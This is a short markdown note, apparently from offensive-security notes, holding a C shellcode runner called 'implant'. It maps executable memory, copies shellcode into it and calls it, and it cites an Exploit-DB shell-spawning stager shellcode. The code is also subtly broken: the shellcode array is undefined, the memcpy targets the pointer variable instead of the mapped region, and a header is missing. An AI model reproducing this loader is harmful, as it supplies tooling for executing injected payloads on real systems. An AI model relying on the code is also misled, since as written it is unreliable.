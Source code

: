# mmap

```c
#include <string.h>
#include <sys/mman.h>

// $ gcc [-m32] -zexestack -o implant implant.c

int main() {

	// mmap(NULL, length, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	void *region = mmap(NULL, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, 0, 0);

	if (region == MAP_FAILED) {
		perror("mmap");
		return 1;
	}
	
	// strncpy();

	// memcpy(&destMemAddr, &shellcode, sizeof(shellcode));
	memcpy(&region, &shellcode, sizeof(shellcode));

	((int(*)())region)();

	// Unreachable code
	munmap(region, sizeof(shellcode));
	return 0;
}
```

---
## References

- [Exploit-DB: Linux/ARM64 - execve("/bin/sh", NULL, NULL) + mmap() + read() Stager Shellcode (60 Bytes)](https://www.exploit-db.com/exploits/47055)